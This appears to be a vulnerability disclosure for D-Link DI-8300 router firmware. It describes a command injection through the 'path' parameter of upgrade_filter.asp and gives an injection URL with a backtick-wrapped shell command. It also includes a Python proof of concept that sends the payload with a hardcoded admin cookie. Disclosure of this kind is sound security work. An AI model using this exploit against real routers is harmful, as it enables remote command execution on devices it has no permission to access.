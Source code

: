 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the upgrade_filter_asp function, parameters are passed through the GET request mode for the path variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the path parameter and check whether the first seven characters are "http://". If yes, concatenate the command and run the system function without filtering the following characters.

![Pasted image 20240806095532](https://github.com/user-attachments/assets/e5adcbee-a13d-41e5-85a6-649ebff9bc1b)
```
http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/002.txt`
```
![Pasted image 20240806100619](https://github.com/user-attachments/assets/2a9c71a6-5592-4e77-9817-cf2345cb6eda)
Check the firmware shell. The command is successfully executed
![Pasted image 20240806100840](https://github.com/user-attachments/assets/3dab3ce9-12e2-46ba-a5d5-b8f64dca1901)
# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`ps%20%3E%20/jiawen.txt`"

url = "http://"+ip+"/upgrade_filter.asp?path=http://"+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```
